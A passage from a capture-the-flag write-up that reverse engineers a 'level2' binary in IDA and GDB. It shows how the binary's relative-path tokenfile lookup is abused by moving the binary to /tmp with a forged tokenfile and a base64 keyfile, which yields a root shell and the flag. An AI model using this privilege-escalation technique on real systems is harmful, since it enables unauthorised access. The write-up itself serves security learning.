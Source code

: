 If we drill down into the `token_from_file` function we find the following interesting code block. There it is! It looks like the program is opening the tokenfile from a relative path rather than an absolute one. We can totally abuse this!

![IDA open tokenfile](rux11_pwn2_tokenfile_open.png)

I forgot to take screenshots during the actual competition but permissions on the tokenfile were such that the user running the level2 binary wasn't able to read the tokenfile, but they **did** allow us to move the binary. Because the tokenfile is being opened from `./tokenfile`, if we move the binary to somewhere like `/tmp` and create our own token file, we should be able to authenticate successfully. Let's test that theory!

```ShellSession
➜  /tmp  echo -n "1:NOENCRYPT\nwinning" > key5
➜  /tmp  echo -n "winning" > tokenfile
➜  /tmp  ./level2 ./key5
Key entry too large.
```

Looks like we've missed something. Let's find the message "Key entry too large" in IDA.

![IDA base64_decode](rux11_pwn2_ida_base64.png)

If the comparison fails and the branch isn't taken the program prints "Key entry too large" and exits. This comparison seems to be comparing a variable to -1 directly after a base64 decode operation. Following the flow in IDA, there are 3 paths from this point. Either the program prints "Key entry too large", "Incorrectly encoded entry" or it proceeds to the `try_authenticate` function. If we break in GDB at the point where `base64_decode` is called we see a pointer (0x602660) to our keyfile entry, "winning", being passed as an argument. 

![GDB base64_decode](rux11_pwn2_gdb_base64.png)
Decoding "winning" as base64 will clearly fail so perhaps we need to encode our input. Also note that because the binary isn't stripped, we can see the name of the original source file at the point where GDB breaks: `authenticate_with_keyfile_b64dec.c`. Sounds good, let's try it.

```ShellSession
➜  /tmp  echo "1:NOENCRYPT" > key6
➜  /tmp  echo -n "winning" | base64 >> key6
➜  /tmp  ./level2 ./key6
# 

# cd /home/level2

# ls
level2	tokenfile

# cat tokenfile
RUX{not_the_actual_flag_but_you_still_win}

# exit
Congratulations. You're authenticated                                                           
➜  /tmp
```

